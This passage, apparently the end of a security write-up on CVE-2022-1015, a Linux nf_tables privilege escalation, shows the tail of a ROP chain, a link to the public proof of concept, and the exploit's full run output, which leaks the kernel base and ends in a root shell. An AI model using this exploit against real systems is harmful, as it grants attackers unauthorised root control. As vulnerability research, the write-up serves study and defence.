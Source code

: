 ```c
payload[offset++] = user_rflags;
payload[offset++] = user_sp;
payload[offset++] = user_ss;
```

This is the complete ROP chain.

## Proof-of-Concept <a name="poc"></a>
The PoC is available at [https://github.com/ysanatomic/CVE-2022-1015](https://github.com/ysanatomic/CVE-2022-1015).

```
# ./exploit
[*] CVE-2022-1015 LPE Exploit by @YordanStoychev

uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
[*] Setting up user+network namespace sandbox

[+] STAGE 1: KASLR bypass 
[*] Socket is opened.
[*] Table leak_table created.
[*] Chain output_chain created.
[*] Bitwise expression is setup!
[*] Payload expression is setup!
[*] Verdict is setup!
[*] Address leak rule created!
[*] Packet sent... if no output in a second - it has failed
[*] Listening on port 50005
[&] Leaked Address: 0xffffffff819bfc63
[&] Kernel base address: 0xffffffff81000000

[+] STAGE 2: Escalation
[*] Socket is opened.
[*] Table rop_table created.
[*] Chain output_chain created.
[*] Copy ROP-to-Stack rules created.
[*] Saved userland registers
[#] cs: 0x33
[#] ss: 0x2b
[#] rsp: 0x7ffd969d1da0
[#] rflags: 0x246

[*] TCP Listener and client threads created!
[+] TCP server socket created.
[+] Bind to the port number: 50006
[*] Listening...
[*] Successfully sent 60 bytes SYN!
[*] Successfully received 48 bytes SYN-ACK!
[*] Sending an ACK packet with the payload...
[***] Exploit ran successfully
uid=0(root) gid=0(root)
#
```

